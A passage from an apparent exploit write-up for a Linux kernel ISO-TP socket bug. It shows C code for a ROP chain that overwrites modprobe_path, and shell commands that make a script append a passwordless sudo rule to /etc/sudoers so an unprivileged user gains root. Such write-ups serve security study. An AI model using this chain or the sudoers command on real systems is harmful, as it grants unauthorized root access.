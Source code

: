 ```c
	/* overwrite sk_error_report() (offset 0x2b8) with stack pivot */
	dst = (uint64_t *)(p + 0x2b8);
	*dst = ROP_PUSH_RDI__JUNK__POP_RSP__RET + kaslr_offset;

	/* ROP at isotp_sock + 0x8 */
	*dst = ROP_RET_0x700 + kaslr_offset;
	dst++;
        /* jump to extended rop chain at isotp_sock + 0x10 */
        *dst = ROP_RET + kaslr_offset;

	/* extended rop chain */
        rop = (uint64_t *)(p + 0x718);
        *rop++ = ROP_POP_RAX__RET + kaslr_offset;
        *rop++ = 0x782f706d742f; /* /tmp/x */
        *rop++ = ROP_POP_RCX__RET + kaslr_offset;
        *rop++ = MODPROBE_PATH + kaslr_offset;
        *rop++ = ROP_MOV_RAX_INTO_RCX__RET + kaslr_offset;
        *rop++ = ROP_POP_RAX__RET + kaslr_offset;
        *rop++ = DO_TASK_DEAD + kaslr_offset;			[1]
        *rop++ = ROP_JMP_RAX + kaslr_offset;
```


The following image shows the sprayed target to overwrite `struct isotp_sock`

![alt text](/home/test/spray.png "Logo Title Text 1")

The ROP chain consists of a technique to overwrite `modprobe_path`. In case any user wants to execute
a file with an invalid file signature, the program at `modprobe_path` will be executed with root privileges.
This technique was apparently used in some CTF challenges and it was thoroughly described by *lkmidas*
in his blog. In case you want to learn about it in depth, check out his well-written article.
Once we have overwritten `modprobe_path`, the kernel thread will be stopped in `do_task_dead()` ``[1]``.
This step is needed as we are already done with exploiting the kernel, and any further
execution of our hijacked kernel thread might result in severe kernel crashes.

```c
ret = system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy;		[1]
	chmod +x /tmp/dummy");
if (ret != 0)
	die("/tmp/dummy creation failed");

ret = system("echo '#!/bin/sh' > /tmp/x; \
	echo 'echo \"noprivs ALL=(ALL) NOPASSWD:ALL\" >> /etc/sudoers'	[2]
		>> /tmp/x; chmod +x /tmp/x");
if (ret != 0)
	die("/tmp/x creation failed");
```

In short, I create a file ``/tmp/dummy`` ``[1]`` with the invalid signature ``0xff 0xff 0xff 0xff``.
I also create a file ``/tmp/x`` ``[2]`` which is the overwritten `modprobe_path`. This small
shell script will add the unprivileged user to ``/etc/sudoers``, allowing to escalate the user's
privileges to root.
